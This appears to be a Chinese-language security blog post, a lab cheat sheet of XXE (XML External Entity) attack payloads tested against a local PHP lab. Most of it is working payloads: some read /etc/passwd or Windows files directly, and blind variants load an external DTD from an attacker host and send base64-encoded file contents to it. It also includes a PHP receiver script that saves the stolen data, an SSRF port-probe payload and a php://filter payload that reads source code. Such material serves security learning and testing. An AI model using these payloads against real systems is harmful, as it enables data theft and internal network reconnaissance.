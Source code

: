 ```yaml
---
layout: post
title: XXE
subtitle: XXE
date: 2023-08-06 20:03
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

## 1. XXE 介绍

[【知识科普】今天聊聊XML这种文件格式_xml文件-CSDN博客](https://blog.csdn.net/wendao76/article/details/147198875)

## 2. XXE payload

### 2.1. 有回显—读取文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE ANY [
        <!ENTITY content SYSTEM "file:///etc/passwd">
        <!--<!ENTITY content SYSTEM "file:///c://Windows//System32//test.txt">-->
]>
<x>&content;</x>
```

可通过读取不存在文件，根据报错获取当前路径

![image.png](https://img.ghostliner.top/GRHAb7.png)

可知当前路径：`C:\Software\phpstudy_pro\WWW\xxe-lab\php_xxe\`

### 2.2. 无回显-读取文件

#### 2.2.1. 方法一

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
        <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=d:/test.txt">
        <!ENTITY % dtd SYSTEM "http://192.168.30.130:8081/test.dtd">
        %dtd;
        %send;
]>
```

test.dtd
```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.30.130:8081/?data=%file;'>">
%payload;
```

#### 2.2.2. 方法二

hack服务器创建 `1.php`

```php
<?php file_put_contents("1.txt", $_GET['file']); ?>
```

hack 服务器创建 `evil.xml`

```xml
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://192.168.163.130:8000/1.php?content=%file;'>"> %payload;
```

`1.php`、`evil.xml` 目录下开启 http 服务

```shell
python -m http.server -b 192.168.163.130 8000
```

bp抓包修改

```xml
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C://windows//win.ini">
	<!ENTITY % dtd SYSTEM "http://192.168.163.130:8000/evil.xml">
	%dtd;
	%send;
]>
```

2、**SSRF—探测端口：**

适用于有回显和blind xxe，也是外部一般实体：

```xml
<?xml version="1.0"?>

<!DOCTYPE ANY [

    <!ENTITY content SYSTEM "http://127.0.0.1:3306">]>

<name>&content;</name>
```

根据响应时间判断是否存活

3、**如果是php的话，可以用php的filter协议直接读出文件**

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE r [ 
<!ELEMENT r ANY>
<!ENTITY goodies SYSTEM "php://filter/read=convert.base64-encode/resource=index.php"> ]> 
<creds>&goodies;</creds>
```
